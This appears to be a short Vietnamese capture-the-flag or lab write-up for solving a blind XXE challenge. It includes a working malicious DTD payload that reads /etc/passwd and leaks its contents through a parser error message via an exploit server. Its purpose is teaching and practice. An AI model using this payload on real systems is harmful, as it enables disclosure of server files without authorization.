




### Giải quyết
- Ở lab này khi thử thay đổi XML input response sẽ trả về lỗi chi tiết 

- Sau đó tôi thử trích xuất nội dung tệp mong muốn qua thông báo lỗi.
- Tương tự lab trước đó tôi lưu 1 file dtd trên exploit server như sau:
``` 
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exf SYSTEM 'file:///test/%file;'>">
%eval;
%exf;
```
- Khác biệt ở chỗ `file:///test/%file` với `test` là 1 đường dẫn không tồn tại và `%file` là nội dung của file `/etc/passwd`.
- Vì không thấy tệp `file:///test/%file` nên sẽ gây ra lỗi và từ đó ứng dụng sẽ hiển thị thông báo lỗi ra.
- Sau đó kích hoạt file dtd này trên exploit server 


###### Solved!
